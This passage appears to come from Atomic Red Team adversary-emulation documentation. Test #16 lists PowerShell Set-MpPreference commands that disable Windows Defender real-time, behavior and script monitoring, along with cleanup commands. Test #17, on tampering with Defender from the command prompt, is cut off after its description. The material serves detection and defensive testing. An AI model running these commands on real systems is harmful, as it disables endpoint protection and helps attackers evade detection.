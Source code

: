 #### Cleanup Commands:
```cmd
sc.exe config #{service_name} start= auto >nul 2>&1
net.exe start #{service_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #16 - Tamper with Windows Defender ATP PowerShell
Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.

**Supported Platforms:** Windows


**auto_generated_guid:** 6b8df440-51ec-4d53-bf83-899591c9b5d7






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-MpPreference -DisableRealtimeMonitoring 1
Set-MpPreference -DisableBehaviorMonitoring 1
Set-MpPreference -DisableScriptScanning 1
Set-MpPreference -DisableBlockAtFirstSeen 1
```

#### Cleanup Commands:
```powershell
Set-MpPreference -DisableRealtimeMonitoring 0
Set-MpPreference -DisableBehaviorMonitoring 0
Set-MpPreference -DisableScriptScanning 0
Set-MpPreference -DisableBlockAtFirstSeen 0
```





<br/>
<br/>

## Atomic Test #17 - Tamper with Windows Defender Command Prompt
Attempting to disable scheduled scanning and other parts of windows defender atp. These commands must be run as System, so they still fail as administrator.
However, adversaries do attempt to perform this action so monitoring for these command lines can help alert to other bad things going on. Upon execution, "Access Denied"
will be displayed twice and the WinDefend service status will be displayed.
